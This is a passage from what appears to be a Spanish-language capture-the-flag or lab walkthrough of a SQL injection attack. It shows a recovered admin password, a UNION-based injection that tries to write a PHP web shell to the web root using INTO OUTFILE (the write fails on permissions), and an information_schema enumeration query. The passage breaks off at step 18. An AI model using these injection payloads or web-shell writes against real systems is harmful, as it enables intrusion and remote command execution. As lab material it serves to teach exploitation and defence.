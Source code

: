**Resultado**:

```
admin	Inl@n3_fre1gh7_adm!n	4	5
```

Credenciales no válidas para el panel de login inicial.

**Explicación**: Probar credenciales de respaldo confirma que no coinciden con las del panel principal.

---

## Paso 16: Intento de RCE vía `OUTFILE`

**Query**:

```sql
' UNION SELECT "<?php system($_GET['cmd']); ?>", null, null, null, null
  INTO OUTFILE '/var/www/html/shell.php'-- -
```

**Resultado**:

```
Can't create/write to file '/var/www/html/shell.php' (Errcode: 13 "Permission denied")
```

**Explicación**: Nuevamente, permisos restringidos impiden crear un shell PHP en el directorio principal.

---

## Paso 17: Exploración de columna FILES en information_schema

**Query**:

```sql
' UNION SELECT 1, column_name, 3, 4, 5
  FROM information_schema.columns
  WHERE table_schema='information_schema'
    AND table_name='FILES'-- -
```

**Resultado**:

Listado de columnas del esquema FILES.

**Explicación**: Analizar la estructura de la tabla FILES ayuda a identificar posibles métodos alternativos de extracción de archivos.

---

## Paso 18: Identificar logs en `mysql`

**Query**:
